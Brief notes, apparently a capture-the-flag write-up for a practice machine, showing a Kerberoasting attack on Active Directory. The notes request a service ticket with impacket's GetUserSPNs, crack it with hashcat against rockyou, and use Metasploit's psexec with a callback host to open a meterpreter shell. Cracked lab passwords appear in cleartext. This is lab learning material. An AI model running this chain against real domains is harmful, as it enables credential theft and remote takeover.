




(3) Kerberoasting :

- kerberos : authentification service protocol
- using tickets as a form of communication/authentication


=> kerberoasting : with any valid TGT, we can request a TGS for this particular SPN
See (part 4) : https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa
(1) GetUserSPNs : impacket tool
=> Get target SPNs with GPP credentials (domain/username + cpassword)
- locate GetUserSPNs
- cd /usr/share/doc/python3-impacket/examples/

- - python GetUserSPNs.py [target-domain/username:cppasword] -dc-ip [domain-controller-ip] -request
- - python GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
-
- - echo '<hash>' > spn_hash.txt
- - cat spn_hash.txt
(2) Decrypt hash with hashcat
- module 13100

- - hashcat -m 13100 spn_hash.txt wordlist/rockyou.txt


- => Ticketmaster1968
(3) Connect to share and gain a shell with PsExec
- msfconsole
> use exploit/windows/smb/psexec- > options
- > set smbdomain active.htb
- > set smbuser administrator
- > set smbpass Ticketmaster1968
- > set rhosts 10.10.10.100
- > set lhost 10.10.14.7
- > run


- => meterpreter session opened